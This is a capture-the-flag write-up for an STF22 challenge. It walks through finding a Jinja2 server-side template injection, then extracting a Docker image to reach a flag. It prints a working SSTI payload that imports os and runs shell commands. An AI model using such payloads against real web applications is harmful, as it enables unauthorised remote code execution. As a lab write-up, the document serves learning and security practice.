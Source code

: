 # 4 Paths of Pain - STF22 Miscellaneous Challenge

Here is the challenge task:

![challenge_task](images/Challenge_Task.png)

Files: `NIL`

## Overview

For this challenge, no files are provided. From the challenge name, one
can guess that there are several hoops we have to jump through.

Accessing the provided URL and looking around, we spot our first clue
in the page's source. There is a hidden button that leads us to
`/?nopain=haha`.

![page_source](images/step_1_page_source.png)

We followed that path and observed that values of the `nopain=` argument
is being reflected onto the page. This means that some form of input
injection is likely.

![reflected](images/step_2_follow.png)

Probing around with reflected javascript for awhile lead to no 
conclusions. This lead to a brief scanning attempt which revealed
that Server-Side Template Injection (SSTI) is possible and that
the server likely uses `Jinja2` as its template engine.

![scan](images/step_3_brief_scan.png)

From there, it was found that `Jinja2` can be susceptible to remote
code execution and a valid attack was found. The attack looks for and
imports the `os` module and uses it to execute and return an arbitrary
system command such as `ls`.

```py
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in 
x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").
read()}}{%endif%}{% endfor %}
```

![app.py](images/step_4_into_cat_app-py.png)

This revealed the server's web application in `app.py` and allowed us
to read its contents, revealing a path that allows us to download a
file named `blueprint.img`. In the context of the challenge task, this
is the next hint that we need - possibly the blueprint to their secret
weapon.

```py
@app.route('/defendthevillagefrompain', methods=['GET']) 
def page3(): 
    try: 
        return send_file('./blueprint.img') 
    except Exception as e: 
        return str(e) 
```

Checking the blueprint with the `file` command reveals that it is a tar archive and its contents were extracted. This reveals several unfamiliar
looking files with me not being accustomed to this part of Docker.

```
$ file blueprint.img
blueprint.img: POSIX tar archive

$ tar -xvf blueprint.tar
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/VERSION
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/json
23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/layer.tar
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/VERSION
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/json
5311c2bdad7ed9ff9a45d89fbf5f6fd3396eba77024356054e44ea3b2965f0a0/layer.tar
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/VERSION
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/json
54b399bd0253b7800f4c81d5d800917be6cd2345be7030947a7efd9bb4f60043/layer.tar
786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/VERSION
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/json
d0ffc5a8edc8aafbc7f44c0f04ccb85285593f89e3b5dd3eb3525e39e53a06cb/layer.tar
manifest.json
repositories
```

This was the start of some rabbit holes where the contents of the files
were being checked slowly. Eventually, noticing that these are files
extracted from a Docker project.

One can load these files back into a docker project and executed via
`docker load < file.tar`, however, this lead to a dead end.

After some time, it was noted that the `786fa91039940fa3*.json` file
that was outside of the 4 folders acted like the output of a 
`docker image history` command. This lead me to one of the folders
which contained a secret message.

```
$ tar -xvf layer.tar    
usr/
usr/src/
usr/src/app/
usr/src/app/secret-message.txt

$ cat usr/src/app/secret-message.txt
The last hiding place is located at pollylester/defendingkonohafrompain
```

This, being likely the final hint, lead me to a DockerHub project.

![dockerhub](images/step_7_dockerhub.png)

At first, nothing was thought about the weird looking string seen above
as I do not frequent DockerHub - assumed it was some checksum.
The project was pulled and contents were checked (which took time as it 
was an Ubuntu image).

Ultimately, came back to this string, decoded it in 
[CyberChef](https://github.com/gchq/CyberChef) and found that it was
the flag.

![flag](images/step_8_flag.png)

<p></p>
<table>
<tr>
    <td style="text-align:center">|</td>
    <td style="text-align:center">| l</td>
</tr>
<tr>
    <td style="text-align:center">| |</td>
    <td style="text-align:center">| _</td>
</tr>
</table>